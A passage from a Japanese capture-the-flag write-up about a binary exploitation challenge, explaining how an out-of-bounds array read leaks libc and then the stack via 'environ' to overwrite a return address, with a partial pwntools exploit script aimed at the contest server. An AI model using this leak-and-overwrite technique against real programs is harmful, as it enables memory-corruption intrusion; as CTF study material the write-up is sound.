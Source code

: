 checksecの結果は次の通り

```txt
[*] '/home/xornet/CTF/rta2023/read-write/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

前問の`getval`は関数になっています。また`array`に対する書き込みだけでなく読み出しも出来るようになり、どちらも合わせて3回まで行えるようです。

最初は前問との本質的な違いがよくわからず、`atoll`のGOTを書き換えれば終わりだと思ってガチャガチャやっていたのですが、Full RELROなので出来ません(再走ポイント5)。そうなると書き換えられるのはリターンアドレスぐらいなものですが[^2]、Canaryも有効なので`getval`の自明なBOFを利用するのも難しそうです。そこでスタックアドレスをリークする事を考えましたが、Pwnを2年半程やっていないせいでスタックのリーク方法がわかりません。というわけで"Stack leak Pwn CTF"とかいう検索ワードで検索すると[Naetw/CTF-pwn-tips: Here record some tips about pwn. Something is obsoleted and won't be updated. Sorry about that.](https://github.com/Naetw/CTF-pwn-tips#leak-stack-address)がヒットします。

最終更新が2018年ですが、Leak stack addressの節は今でも使えそうです。これによると`libc`中の`environ`というシンボルにスタック上に環境変数を詰め込んだ箇所を指すポインタが入っているようです。この問題は`array`を踏み台にした読み出しが可能なので上部のGOTから適当な関数を選んでlibcの配置アドレスがリーク出来ます。というわけで`environ`までのオフセットを足してあげれば`environ`に対する読み出しも出来そうです。但し、pwntoolsのELFクラスにlibcを食わせて`symbols["environ"]`を探したんですが`KeyError`を返されて途方にくれたので(再走ポイント6)、最終的に[各種OSのUserlandにおけるPwn入門 - WTF!?](https://nanuyokakinu.hatenablog.jp/entry/2018/12/09/223440)を見て`nm -D <libc> | grep environ`を実行しました。

これでスタック上を指すアドレスがリーク出来たので、`environ`が指している位置からリターンアドレスまでのオフセットを足して[^3]、最後に前問同様に`win`を書き込みます。

```python
from pwn import remote, process, p64, ELF
import sys


args = sys.argv
DEBUG = True if "-d" in args else False

port = 13337 if DEBUG else 9003
host = "35.194.118.87" if not DEBUG else "localhost"

sc = remote(host, port)

input("attach")


elf  = ELF("./chall")
libc = ELF("./libc.so.6")
win_addr = elf.symbols["win"]
sc.sendline(b"1")
sc.recvuntil(b"index: ")
idx = -12
sc.sendline(str(idx).encode())
res = sc.recvline().strip().decode()
leak = int(res)
libc_addr = leak - (0x00007f39c20360f0 - 0x7f39c1f4b000)

# stack leak?
environ_addr = 0x0000000000221200+ libc_addr
array_addr = 0x404040
idx = environ_addr - array_addr
idx //= 0x8
sc.sendline(b"1")
sc.recvuntil(b"index: ")
sc.sendline(str(idx).encode())
res = sc.recvline().strip().decode()
res = int(res)


ret = res + (0x7ffd18f488e8 - 0x7ffd18f48888 - 0x180) #????
```

[^1]: 特にこの影響を受けているのがRevで最近のバイナリはどいつもこいつも2.34以上を要求してくる
[^2]: 後で放送を見返したらlibc中のGOT(Partial-RELRO)といった何らかの関数ポインタを書き換えるといったことが検討されていたが、思いつきもしなかったしこれもそもそも難しいらしい
[^3]: 実際は負数なので引いている
[^4]: これは半分嘘で、Cryptoの3問目ぐらいまで(走者の皆様が沼っているのを)観戦しそこから酒を飲みに行った